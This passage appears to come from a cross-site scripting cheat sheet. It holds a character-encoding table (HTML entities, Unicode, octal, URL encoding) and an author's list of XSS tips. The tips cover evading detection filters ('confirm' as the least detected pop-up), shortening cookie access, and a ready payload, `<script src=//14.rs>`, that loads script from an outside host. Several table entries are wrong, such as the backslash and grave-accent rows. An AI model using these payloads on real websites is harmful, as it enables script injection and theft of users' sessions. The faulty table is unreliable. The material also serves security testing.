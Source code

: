 |`&ast;`|*|`&#42;`|asterisk|u+002A|\002a|\52|%2A|
|`&plus;`|+|`&#43;`|plus sign|u+002B|\002b|\53|%2B|
|`&comma;`|,|`&#44;`|comma|u+002C|\002c|\54|%2C|
|`&minus;`|-|`&#45;`|hyphen-minus|u+002D|\002d|\55|%2D|
|`&period;`|.|`&#46;`|full stop; period|u+002E|\002e|\56|%2E|
|`&sol;`|/|`&#47;`|solidus; slash|u+002F|\002f|\57|%2F|
|`&colon;`|:|`&#58;`|colon|u+003A|\003a|\72|%3A|
|`&semi;`|;`|`&#59;`|semicolon|u+003B|\003b|\73|%3B|
|`&lt;`|<|`&#60;`|less-than|u+003C|\003c|\74|%3C|
|`&equals;`|=|`&#61;`|equals|u+003D|\003d|\75|%3D|
|`&gt;`|>|`&#62;`|greater-than sign|u+003E|\003e|\76|%3E|
|`&quest;`|?|`&#63;`|question mark|u+003F|\003f|\77|%3F|
|`&commat;`|@|`&#64;`|at sign; commercial at|u+0040|\0040|\100|%40|
|`&lsqb;`|\[|`&#91;`|left square bracket|u+005B|\005b|\133|%5B|
|`&bsol;`|/|`&#92;`|backslash|u+005C|\005c|\134|%5C|
|`&rsqb;`|]|`&#93;`|right square bracket|u+005D|\005d|\135|%5D|
|`&Hat;`|^|`&#94;`|circumflex accent|u+005E|\005e|\136|%5E|
|`&lowbar;`|_|`&#95;`|low line|u+005F|\005f|\137|%5F|
|`&grave;`|\`|`&#96;`|grave accent|u+0060|\0060|\u0060|%60|
|`&lcub;`|{|`&#123;`|left curly bracket|u+007b|\007b|\173|%7b|
|`&verbar;`|\||`&#124;`|vertical bar|u+007c|\007c|\174|%7c|
|`&rcub;`|}|`&#125;`|right curly bracket|u+007d|\007d|\175|%7d|

### Awesome Tips & Tricks
- `http(s)://` can be shortened to `//` or `/\\` or `\\`.
- `document.cookie` can be shortened to `cookie`. It applies to other DOM objects as well.
- alert and other pop-up functions don't need a value, so stop doing `alert('XSS')` and start doing `alert()`
- You can use `//` to close a tag instead of `>`.
- I have found that `confirm` is the least detected pop-up function so stop using `alert`.
- Quotes around attribute value aren't necessary as long as it doesn't contain spaces. You can use `<script src=//14.rs>` instead of `<script src="//14.rs">`
- The shortest HTML context XSS payload is `<script src=//14.rs>` (19 chars)

### Awesome Credits
All the payloads are crafted by me unless specified.
